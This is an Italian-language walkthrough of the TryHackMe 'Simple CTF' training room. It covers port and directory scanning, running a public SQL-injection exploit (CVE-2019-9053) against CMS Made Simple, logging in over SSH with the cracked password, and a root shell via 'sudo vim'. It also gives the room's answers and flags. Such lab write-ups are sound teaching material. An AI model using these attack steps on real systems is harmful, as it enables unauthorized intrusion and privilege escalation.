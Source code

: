 # Simple CTF

Benvenuto alla sfida "Simple CTF" su TryHackMe! Nonostante la sua descrizione minimale, questa CTF è progettata per guidarti attraverso alcune delle competenze fondamentali richieste in molte competizioni di hacking, fornendo un'esperienza ideale per i principianti.

La sfida "Simple CTF" è un ambiente sicuro e controllato che ti permette di esplorare e padroneggiare le competenze essenziali delle CTF. Il percorso include fasi cruciali come la scansione e l'enumerazione, la ricerca di vulnerabilità, lo sfruttamento e l'escalation dei privilegi.

**Cosa aspettarti**:

**Scansione ed Enumerazione**: Utilizza strumenti di scansione per identificare i servizi in esecuzione sulla macchina bersaglio e raccogli informazioni cruciali per avanzare nella tua missione.

**Ricerca**: Scava nella profondità del sistema per individuare punti deboli e vulnerabilità nascoste. La ricerca è la chiave per trovare le vie di accesso.

**Sfruttamento**: Una volta individuate le debolezze, metti in pratica le tue abilità di sfruttamento per guadagnare l'accesso non autorizzato. Affina la tua abilità nell'arte dell'hacking etico.

**Escalation dei Privilegi**: Supera le sfide aggiuntive che possono sorgere una volta ottenuto l'accesso. L'escalation dei privilegi ti aiuterà a ottenere il controllo completo del sistema.

**Obiettivi**:

- Trova e sfrutta le vulnerabilità.
- Raccogli le informazioni necessarie per completare la sfida.
- Scala i privilegi per ottenere il controllo totale.

e rispondi a tutte le domande...

Ricorda, questa CTF è pensata per i principianti, quindi non preoccuparti se sei alle prime armi. Utilizza questa opportunità per migliorare le tue abilità e diventare un esperto nell'arte dell'hacking etico. Buona fortuna, e che l'avventura inizi!

## SOLUZIONE 
_per completare la stanza rispetterò l'ordine delle domande_

Per iniziare provo a fare una scansione delle porte aperte, questo approccio mi è indicato dalla prima domanda

```sh
└─$ nmap -p- -sS -A 10.10.248.183
```
l'output indica che ci sono 3 porte aperte:
- Port 21 (Servizio FTP): Il server FTP vsftpd 3.0.3 è in esecuzione, consentendo l'accesso anonimo.
- Port 80 (Servizio HTTP): Apache httpd 2.4.18 è in esecuzione su Ubuntu, con una pagina predefinita che indica il funzionamento di Apache e un file robots.txt con voci disallow.
-  Port 2222 (Servizio SSH): OpenSSH 7.2p2 è in esecuzione su Ubuntu 4ubuntu2.8 sulla porta 2222/tcp.

![Alt text](img/image.png)
```diff
- Quanti servizi sono in esecuzione sotto la porta 1000?
```
$${\color{red}Quanti \space servizi \space sono \space in \space esecuzione \space sotto \space la \space porta \space 1000?}{\color{green}2}$$

<span class="Q">
Quanti servizi sono in esecuzione sotto la porta 1000?
</span>
<span class="A">
2
</span>

<span class="Q">
Cosa è in esecuzione sulla porta superiore?
</span>
<span class="A">
SSH
</span>

L'output di Nmap ci viene di nuovo in aiuto fornendoci anche la risposta della seconda domanda

Ora è necessario raccogliere qualche informazine in più.

sappiamo che la porta 80 espone un Apache quindi proviamo a visitare il sito

![Alt text](img/image-1.png)

abbiamo la conferma che il server Web è un Apache2 come indicato da Nmap.

ora provo con gobuster a fare una scansione del sito alla ricerca di altre pagine.

ho utilizzato DirBuster con la wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

è possibile anche usare GoBuster; lascio per completezza il comando:
```sh
└─$ gobuster dir -u http://10.10.248.183:80 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 
```
**dir** cerca solo le cartelle
**-u** è l'url
**-w** è la wordlist
**-t** sono i threads

![Alt text](img/image-2.png)

ho trovato molte directory e file; visiterò /simple/ nella quale c'è index.php

![Alt text](img/image-3.png)

la pagina è riferita ad un CMS chiamato CMS Made Simple. in fondo alla pagina è possibile vedere la versione.

![Alt text](img/image-4.png)

direi che è possibile fare una ricerca su google inserendo qualcosa del genere "_CMS Made Simple version 2.2.8 exploit_"

Il primo link di google è di exploit-db: https://www.exploit-db.com/exploits/46635

![Alt text](img/image-5.png)

questa pagina ci fa rispondere alle successive 2 domande

<span class="Q">
Qual è il CVE che stai usando contro l'applicazione?
</span>
<span class="A">
CVE-2019-9053
</span>

<span class="Q">
A che tipo di vulnerabilità è vulnerabile l'applicazione?
</span>
<span class="A">
SQLi
</span>

l'exploit è uno stript in python quindi lo ho capiato e incollato in un file .py

per comodità l'ho chiamato con il nome del CVE 
```sh
└─$ nano CVE-2019-9053.py
```
dando un'occhiata veloce al codice vengono importati dei moduli che sono per lo più built-in.
I moduli da installare sono: **termcolor** e **requests**.

quindi all'interno della directory in cui si trova il file .py installo un venv
```sh
└─$ python3 -m venv venv 
```
e successivamente lo attivo
```sh
└─$ source ./venv/bin/activate
```
ora posso installare termcolor e requests senza rischiare un confiltto di versioni, ma sopratutto senza sporcare la mia Kali.
```sh
└─$ pip install termcolor requests
```
Ora provo a eseguirlo e vediamo cosa ottengo in cambio. Se non si conosce la sintassi, si può eseguire lo script senza argomenti e ti darà alcune informazioni su cosa inserire, una sorta di Help.

![Alt text](img/image-6.png)

Qui possiamo vedere che abbiamo bisogno di fornire: 
- URL usando il flag -u 
- una wordlist per il cracking delle password usando -w.
```sh
└─$ python CVE-2019-9053.py -u http://10.10.248.183/simple/ --crack -w /usr/share/wordlists/rockyou.txt 
```
Ora, eseguiamolo e vediamo cosa otteniamo in cambio.

Il risultato è che abbiamo trovato:
```output
[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```
quindi possiamo rispondere alle seguenti domande:

<span class="Q">
Qual è la password?
</span>
<span class="A">
secret
</span>

<span class="Q">
Dove si può accedere con i dati ottenuti?
</span>
<span class="A">
SSH
</span>

ovviamente proverò subito ad eseguire l'accesso tramite SSH

![Alt text](img/image-7.png)

Bingo!

Ora vediamo dove sono e cosa c'è nella home del utente mitch

![Alt text](img/image-8.png)

quindi posso rispondere alla domanda:

<span class="Q">
Qual è il flag dell'utente?
</span>
<span class="A">
G00d j0b, keep up!
</span>

è facile rispondere anche a quella dopo dopo:
<span class="Q">
C'è qualche altro utente nella home directory? Come si chiama?
</span>
<span class="A">
sunbath
</span>

![Alt text](img/image-9.png)

per generare una shell con privilegi è necessario fare un paio di ricerche su google. Ma prima ho bisogno di conoscere se l'utente mitch può eseguire dei binari senza password.
per fare questo posso vedere quali binari sono consentiti a mitch con il comando:
```sh
└─$ sudo -l
```
![Alt text](img/image-10.png)

<span class="Q">
Cosa puoi sfruttare per generare una shell privilegiata?
</span>
<span class="A">
vim
</span>

Posso vedere che l'utente "mitch" può eseguire /usr/bin/vim senza una password. Questa informazione mi servirà per rispondere all'ultima domanda.

Diamo un'occhiata a GTFOBins e vediamo se possiamo usarlo per privesc.

![Alt text](img/image-11.png)
url: https://gtfobins.github.io/gtfobins/vim/

La documentazione dice che se eseguo questo comando qui posso aumentare i miei privilegi!

```sh
└─$ sudo vim -c ':!/bin/sh'
```
![Alt text](img/image-12.png)

<span class="Q">
Che cos'è il flag di radice?
</span>
<span class="A">
W3ll d0n3. You made it!
</span>

Finita!!!

<style>
    .Q {
        font-weight: bold;
        color: red;}
    .A {
    font-weight: bold;
    color: Green;}
</style>
